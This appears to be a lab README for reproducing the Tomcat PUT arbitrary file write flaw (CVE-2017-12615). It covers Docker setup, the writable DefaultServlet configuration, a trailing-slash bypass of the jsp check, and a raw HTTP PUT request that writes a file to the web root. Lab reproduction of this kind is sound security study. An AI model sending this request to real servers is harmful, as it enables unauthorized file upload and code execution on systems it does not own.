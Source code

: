 # Tomcat PUT method arbitrary write file vulnerability (CVE-2017-12615)

Tomcat version: 8.5.19

## Environment Building

```
Docker-compose build
Docker-compose up -d
```

After running, visit `http://your-ip:8080` to see the Tomcat Example page.

## Vulnerability Principle

reference:

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

The nature of the vulnerability Tomcat is configured to be writable (readonly=false), which allows us to write files to the server:

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Although Tomcat has some detection of file suffixes (you can't write jsp directly), we use some file system features (such as `/` available under Linux) to bypass the restrictions.

## Vulnerability recurrence

You can write the shell to the web root directly by sending the following packet:

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

Shell
```

as follows:

![](01.png)